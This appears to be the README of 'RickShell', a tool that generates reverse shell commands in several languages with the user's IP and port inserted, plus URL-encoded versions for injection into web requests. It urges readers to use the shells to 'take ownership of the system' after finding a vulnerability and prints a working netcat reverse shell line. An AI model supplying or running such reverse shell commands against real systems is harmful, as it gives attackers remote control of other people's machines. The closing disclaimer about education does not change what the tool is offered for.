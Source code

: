 
# 🧬 RickShell  



                                                 ⠀⠀⠀⠐⣦⣴⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
                                                 ⠀⠀⠀⣻⣿⣿⣿⡄⠀⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
                                                 ⠀⠀⠈⠹⣯⣿⣿⡃⠀⠀⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
                                                 ⠀⠀⠀⠀⢀⣹⣟⣡⡤⠴⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
                                                 ⠀⠀⣠⡶⠋⢹⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣶⣿⣿⡄⠀⠀⠀
                                                 ⠀⣼⠃⠀⠀⢀⣿⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣿⣿⣿⡀⠀⠀
                                                 ⢸⠇⠀⠀⠀⣼⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣶⣾⡟⣷⣂⣀⡤⠖
                                                 ⠿⠊⠲⣶⠿⠛⠫⣶⣧⣀⣀⡀⠀⠀⠀⠀⣠⠞⠁⣴⣿⡿⠁⠀⠀⠀⠀⠀
                                                 ⠀⠀⠀⠀⠀⠀⢀⡿⠀⠉⠉⣩⡿⠀⠀⠀⠉⠀⣼⣿⡿⠁⠀⠀⠀⠀⠀⠀
                                                 ⠀⠀⠀⠀⠀⠀⣼⠃⠀⠀⣰⠟⠀⢀⠀⠀⠀⢠⣿⣿⣁⠀⠀⠀⠀⠀⠀⠀
                                                 ⠀⠀⠀⠀⢀⡼⠃⠀⠀⢴⣅⠀⠀⠉⠘⠲⠴⠟⠁⠈⠙⢷⡀⠀⠀⠀⠀⠀
                                                 ⠀⠀⠀⣰⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠇⠀⠀⠀⠀⠀
                                                 ⠀⠀⠰⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠁⠀⠀⠀⠀



use one of the reverse shell commands in this tool to take ownership of the system when you find a vulnerability that you can exploit ;-)

## 💡 HOW TO USE

`RickShell` command gives you the **top 10** most used shells. The tool will automatically type your ip address and a suitable port into the command.

### The following arguments can be used:

- `RickShell -p netcat` *netcat reverse shell commands.*

- `RickShell - p bash`   *bash reverse shell commands.*

- `RickShell -p php` *php reverse shell commands.* 

- `RickShell -p python` *python reverse shell commands.*

- `RickShell -p java` *java reverse shell commands.*
 
- `RickShell -p powershell`  *powershell reverse shell commands.*

- `RickShell -p telnet` *telnet reverse shell commands.*

---
_these commands automatically assign your ip address and port. 🪄_
 - e.g: `nc -e /bin/sh 192.168.100.23 4444  `

_but if you want to use a different ip and port, you can use the following arguments_

- `RickShell -ip 192.168.1.1 --port 4242`
- `RickShell -p bash -ip 192.168.1.1 --port 4242`  etc.
---
#### 🌐  if you are going to use it in the url, use the following command. this sets your shell command for the url (-ue)

- `RickShell -ue` / `RickShell -p bash -ue` / 
- `RickShell -ip 192.168.1.1 --port 4242 -ue` etc.

---

## 📜 Installation

`git clone https://github.com/Rickidevs/RickShell.git`

`cd RickShell`

`chmod +x setup.sh`

`./setup.sh`

---

## ⚖️  Disclaimer

_you are fully responsible for legal or illegal use. remember that this tool is designed for education_

---

✉️ Contact Me   - [Telegram](https://t.me/hackerrick)
